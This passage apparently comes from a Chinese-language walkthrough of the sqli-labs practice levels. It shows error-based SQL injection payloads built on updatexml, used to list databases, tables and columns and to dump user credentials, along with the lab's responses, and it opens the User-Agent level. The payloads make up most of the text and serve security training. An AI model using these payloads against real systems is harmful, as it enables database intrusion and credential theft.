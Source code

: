 ```
###返回：XPATH syntax error: '~challenges'
1' and updatexml(1,concat(0x7e,(select schema_name from information_schema.schemata limit 5,1)),3) -- a
###返回：XPATH syntax error: '~security'

###直接查询当前所在库
1' and updatexml(1,concat(0x7e,substr((database()),1,32)),3) -- a
返回：XPATH syntax error: '~security'


#查询 security 数据库的所有表名
1' and updatexml(1,concat(0x7e,(select group_concat(table_name)
from information_schema.tables
where table_schema="security")),3) -- a

##返回：XPATH syntax error: '~emails,referers,uagents,users'


# 查询 users 表的所有列名
1' and updatexml(1,concat(0x7e,(select group_concat(column_name)
from information_schema.columns
where table_schema="security" and table_name="users")),3) -- a

##返回：XPATH syntax error: '~id,username,password'



#查表中内容（分段查询）：

1' and updatexml(1,concat(0x7e,(select concat(id,':',username,':',password) from security.users limit 0,1)),3) -- a
##返回：You can't specify target table 'users' for update in FROM clause"你不能在 FROM 子句中指定目标表 'users' 进行更新"

1' and updatexml(1,concat(0x7e,(select concat(id,':',username,':',password) from (select * from users) as temp limit 0,1)),3) -- a
##返回：XPATH syntax error: '~1:Dumb:0'
1' and updatexml(1,concat(0x7e,(select concat(id,':',username,':',password) from (select * from users) as temp limit 1,1)),3) -- a
##返回：XPATH syntax error: '~2:Angelina:0'
```

## Less-18

User-Agent:浏览器表明自己的身份（是哪种浏览器）

（由于php搭建的sqli-labs中18关修改User Agent后没有反应，所以这一关在buuctf打）

输入admin/admin后，返回：

`Your IP ADDRESS is: 10.244.166.11 Your User Agent is: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0`
